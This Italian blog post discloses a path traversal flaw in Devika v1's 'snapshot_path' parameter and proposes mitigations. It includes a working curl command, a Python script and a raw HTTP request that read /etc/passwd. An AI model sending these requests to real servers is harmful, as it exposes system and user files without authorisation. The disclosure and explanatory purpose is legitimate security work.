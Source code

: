 ```yaml
---
layout: post
title: '[webapps] Devika v1 - Path Traversal via snapshot_path' 
date: 2024-08-04
categories: [security, ransomware]
---
```


# [webapps] Devika v1 - Path Traversal via 'snapshot_path'

## Introduzione
La presenza di una vulnerabilità di tipo Path Traversal in Devika v1 tramite il parametro 'snapshot_path' potrebbe permettere a utenti malintenzionati di accedere a file e directory al di fuori dell'ambito del server web. Questo potenziale abuso può avere un impatto significativo sulla sicurezza e sulla privacy degli utenti.

## Dettagli della Vulnerabilità
La vulnerabilità si manifesta nel momento in cui un utente malintenzionato invia una richiesta HTTP manipolata all'applicazione. Questa vulnerabilità è conosciuta come Path Traversal e consente l'accesso a file e directory al di fuori dell'ambito del server web. La vulnerabilità in questione è stata identificata in Devika v1.

## Esempio di Payload Semplice
Il comando originale è il seguente:

```bash
curl -s -L -b "COOKIE" "http://target.com/devika/v1/snapshot?snapshot_path=../../../etc/passwd"
```

## Conversione in Python del Payload Semplice
L'equivalente script Python del comando originale è il seguente:

```python
import requests

url = "http://target.com/devika/v1/snapshot"
cookies = {"COOKIE": ""}
params = {"snapshot_path": "../../../etc/passwd"}

response = requests.get(url, cookies=cookies, params=params)

print(response.text)
```

## Spiegazione Tecnica
Il comando `curl` originale invia una richiesta HTTP GET all'URL specificato, passando i cookie e inserendo il payload di Path Traversal nel parametro `snapshot_path`. Il comando cerca il file `/etc/passwd`, che è un file di sistema standard in un sistema Linux, che contiene le informazioni degli utenti del sistema.

Lo script Python fa la stessa cosa, solo usando il modulo `requests` di Python. Definisce l'URL, i cookie e i parametri della richiesta, poi esegue la richiesta GET con `requests.get()`. Infine, stampa la risposta con `print(response.text)`.

## Procedura per Riprodurre la Vulnerabilità
Un aggressore può sfruttare questa vulnerabilità seguendo questi passi:

1. Preparare una richiesta HTTP GET con il payload di Path Traversal.
2. Inserire il payload nel parametro `snapshot_path` della richiesta.
3. Inviare la richiesta all'URL dell'applicazione.

## Richiesta HTTP
La richiesta HTTP è la seguente:

```http
GET /devika/v1/snapshot?snapshot_path=../../../etc/passwd HTTP/1.1
Host: target.com
Cookie: COOKIE
```

## Impatto della Vulnerabilità
Se sfruttata, questa vulnerabilità consentirebbe ad un aggressore di accedere a file e directory al di fuori dell'ambito del server web. Questo può potenzialmente esporre informazioni sensibili, come i dati degli utenti, che possono essere utilizzati per ulteriori attacchi o per fini malevoli.

## Patch e Mitigazioni
Al momento della pubblicazione di questo articolo, non sono state rilasciate patch ufficiali per risolvere questa vulnerabilità. Tuttavia, una possibile mitigazione consiste nel limitare l'accesso ai file tramite restrizioni sul file system o attraverso l'applicazione stessa.

## Conclusione
La presenza di una vulnerabilità di tipo Path Traversal in un'applicazione può comportare gravi rischi per la sicurezza e la privacy degli utenti. È fondamentale prendere seriamente queste minacce e adottare tutte le misure necessarie per mitigarle. Nel caso di Devika v1, gli utenti dovrebbero essere consapevoli di questa vulnerabilità e prendere le adeguate precauzioni finché non verranno rilasciate patch ufficiali.

